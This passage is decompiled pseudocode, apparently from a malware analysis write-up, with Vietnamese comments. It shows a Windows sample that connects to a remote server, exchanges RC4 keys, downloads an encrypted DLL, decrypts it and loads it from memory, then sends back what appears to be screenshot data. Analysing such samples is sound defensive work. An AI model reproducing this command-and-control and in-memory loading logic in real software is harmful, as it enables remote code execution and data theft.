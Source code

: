 ```
  }
LABEL_9:
  freeaddrinfo(*v4);
  if ( resolve_APIhashing_ws2_32()[100] != -1 ) // resolve_APIhashing_ws2_32()[100] = connect()
  {
    recv = resolve_APIhashing_ws2_32();
    if ( !((int (__stdcall *)(_DWORD, char *, int, _DWORD))recv[122])(recv[100], key, 512, 0) )// recv[122]recv[100] ==  recv
    {
      recv[100] = 0;
      *((_BYTE *)recv + 496) = 0;
    }
    send = resolve_APIhashing_ws2_32();
    ((void (__stdcall *)(_DWORD, unsigned int *, int, _DWORD))send[121])(send[100], &ss, 1, 0);// v29 = 4 (gửi 1 byte)
    ss = strlen((const char *)create_key_random((int)&savedregs));
    RC4_sendEnc((int)&ss, 4, key);
    len_key = strlen((const char *)create_key_random((int)&savedregs));
    data = create_key_random((int)&savedregs);
    RC4_sendEnc(data, len_key, key);            // ma hoa
    v16 = nameFileDLL + 4;
    recv1 = resolve_APIhashing_ws2_32();
    if ( !((int (__stdcall *)(_DWORD, int, int, _DWORD))recv1[122])(recv1[100], v16, 4, 0) )// nhan tu 31337 -> 4 bytes 002a0000 kich thuoc file DLL
    {
      recv1[100] = 0;
      *((_BYTE *)recv1 + 496) = 0;
    }
    v18 = malloc(*(_DWORD *)(nameFileDLL + 4));
    v19 = *(_DWORD *)(nameFileDLL + 4);
    *(_DWORD *)(nameFileDLL + 8) = v18;
    recv2 = resolve_APIhashing_ws2_32();
    if ( !((int (__stdcall *)(_DWORD, void *, int, _DWORD))recv2[122])(recv2[100], v18, v19, 0) )// data file dll đã bị encrypted
    {
      recv2[100] = 0;
      *((_BYTE *)recv2 + 496) = 0;
    }
    lenkey = strlen((const char *)create_key_random((int)&savedregs));
    v21 = nameFileDLL;
    dataencRecv = *(_BYTE **)(nameFileDLL + 8);
    keyDecryptData = create_key_random((int)&savedregs);
    rc4_encrypt(*(_DWORD *)(v21 + 8), *(_DWORD *)(v21 + 4), keyDecryptData, lenkey, dataencRecv);// *(dword_4203B4+4) = key && *(dword_4203B4+8) = data
    v23 = (int *)nameFileDLL;
    handle = LoadDLL(*(_DWORD *)(v21 + 8), *(_DWORD *)(v21 + 4));
    *v23 = handle;
    if ( !handle )
      sub_401600("Can't load library from memory.\n");
    if ( !*(_DWORD *)nameFileDLL )
    {
      _loaddll((char *)0xFFFFFFFF);
      JUMPOUT(0x4033B3);
    }
    dword_420394 = CreatePicTureBMP();
    picEnc = *(_DWORD *)dword_420394 / (unsigned int)lendataEnc;
    key_random = (const char *)create_key_random((int)&savedregs);// gui size cua pic
    RC4_sendEnc((int)&picEnc, 4, key_random);
  }
  dword_42039C(1, sub_402E80);
  v26 = dword_4203B0(5);
  dword_4203A4(v26);
  return 0;
```